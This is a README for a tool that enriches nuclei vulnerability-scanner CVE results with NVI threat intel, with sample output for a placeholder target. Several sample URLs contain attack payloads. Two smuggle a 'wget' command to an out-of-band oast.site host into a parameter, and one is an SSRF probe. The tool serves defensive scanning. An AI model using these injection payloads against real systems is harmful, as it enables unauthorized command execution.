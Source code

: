 # nuclei-nvi
### Enriches nuclei CVE results with vulnerability intel from NVI platform - https://www.northinfosec.com/ 

Simple usage:

nuclei -target http://sample.nuclei-target.com --silent | python3  nuclei-nvi.py  

----------------------------------------

Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/localJob.php?session=fail;wget+http://cqqf5fng4vbb67d6ath09hcfohi51hmyx.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2016-1555
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/boardDataWW.php
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2017-9506
Category: http
Nuclei rating: medium
URL: http://sample.nuclei-target.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://cqqf5fng4vbb67d6ath059tkk51qewsbf.oast.site
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2017-3506
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/wls-wsat/RegistrationRequesterPortType
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/pre_connect_check.php?auth_name=fail;wget+http://cqqf5fng4vbb67d6ath05dc5mwird8dcc.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2018-16167
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/upload
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2019-10758
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/checkValid
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2019-2616
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/xmlpserver/ReportTemplateService.xls
Intel: NVI risk_rating => Critical | Public exploit => Weaponized | Ransomware => No | kev => Yes 

----------------------------------------


